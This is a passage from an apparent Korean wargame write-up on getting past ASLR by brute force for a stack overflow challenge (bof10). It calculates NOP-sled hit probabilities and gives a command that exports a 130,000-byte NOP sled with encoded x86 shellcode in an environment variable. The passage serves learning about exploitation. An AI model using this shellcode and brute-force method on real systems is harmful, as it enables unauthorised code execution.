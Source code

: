 5. 예를 들어서 `SHELLCODE` 환경변수가 `0xff89d834` (`32` 비트용 프로그램이라 `4` 바이트 주소 사용) 라는 주소값에 저장되었다고 하면 `0xff89d834` 부터 `0xff89d83e` 까지 `NOP` 코드가 저장되어 있고 `0xff89d83f` 부터 쉘코드가 시작된다. 

6. `SHELLCODE` 환경변수가 `0x00000000` 부터 `0xffffffff` 까지 위치할 수 있다고 생각한다면, 쉘코드가 실행될 확률은 `(11 / 0xffffffff) * 100` 이라고 할 수 있다. 이 값은 **0.000000256%** 정도의 확률이다.

## brute-force 로 ASLR 우회 

7. 아니, 그러면 `NOP` 를 많이 넣으면 넣을수록 이 쉘코드가 실행될 확률이 높아지는 게 아닐까. 

    - `NOP` 코드 **1000** 바이트 삽입 시 쉘코드가 실행될 확률 

      - `(1001 / 0xffffffff) * 100 = 0.0000233%`

    - `NOP` 코드 **100,000** 바이트 삽입 시 쉘코드가 실행될 확률 

      - `(100001 / 0xffffffff) * 100 = 0.0233%`

8. 그런데 `./bof10` 을 계속 실행하면서 `SHELLCODE` 의 주소값을 관찰해보면 주소값이 `0xff8-----` 부터 `0xfff-----` 까지의 범위를 갖는다고 유추할 수 있다. 환경변수는 커널 코드 밑에 위치하고 환경변수 밑에는 바로 스택이 쌓이기 때문에 `0x00000000` 부터 `0xffffffff` 까지의 주소 영역을 가질 수는 없어 보인다. 그렇기 때문에 `SHELLCODE` 변수가 위치할 영역을 좀 더 작게 유추해보고 확률을 다시 계산해보자. 

    - `0xff800000` 부터 `0xffffffff` 의 영역의 길이 

      - `0xffffffff - 0xff800000 = 0x7fffff` 

    - `NOP` 코드 **1000** 바이트 삽입 시 쉘코드가 실행될 확률 

      - `(1001 / 0x7fffff) * 100 = 0.0119%`

    - `NOP` 코드 **100,000** 바이트 삽입 시 쉘코드가 실행될 확률 

      - `(100001 / 0x7fffff) * 100 = 1.192%`

9. 만약 `NOP` 코드를 **10만** 바이트, 즉 **100 KB** 를 삽입하였을 때 쉘코드가 실행될 확률은 약 **1.2 %** 까지 높아진다. 

## NOP 코드 최대 길이 

10. 그러면 환경변수에 `NOP` 코드를 어느정도까지 삽입할 수 있을까? **Ubuntu 16.04 x64** 환경에서 실험했을 때 **13만 바이트**까지 삽입할 수 있었다. 그러면 **13만 바이트**의 `NOP` 코드를 삽입할 경우 쉘코드가 실행될 확률은 다음과 같다. 

    - `NOP` 코드 10,0000 바이트 삽입 시 쉘코드가 실행될 확률 

      - `(130001 / 0x7fffff) * 100 = 1.549%`

11. **1.5%** 정도면 충분히 유의미한 확률이기 때문에 브루트 포스(brute-force) 공격이 가능하다. 

## brute-force exploit

12. 먼저 `SHELLCODE` 환경변수를 다음과 같이 생성하자. 

    ```shell
    export SHELLCODE=`python -c "print '\x90'*130000 + '\xeb\x12\x31\xc9\x5e\x56\x5f\xb1\x15\x8a\x06\xfe\xc8\x88\x06\x46\xe2\xf7\xff\xe7\xe8\xe9\xff\xff\xff\x32\xc1\x32\xca\x52\x69\x30\x74\x69\x01\x69\x30\x63\x6a\x6f\x8a\xe4\xb1\x0c\xce\x81'"`
    ```
    
13. 그리고 `buf` 와 `return address` 까지의 거리를 계산하자. 결국 `20` 바이트라는 것을 알게 되는데, 이 `20` 바이트 이후에 `SHELLCODE` 환경변수의 주소값을 `0xff800000` 과 `0xffffffff` 사이의 적당한 값으로 덮어쓰고 `while` 문을 사용해서 다음과 같이 계속 때려맞춰보자. 
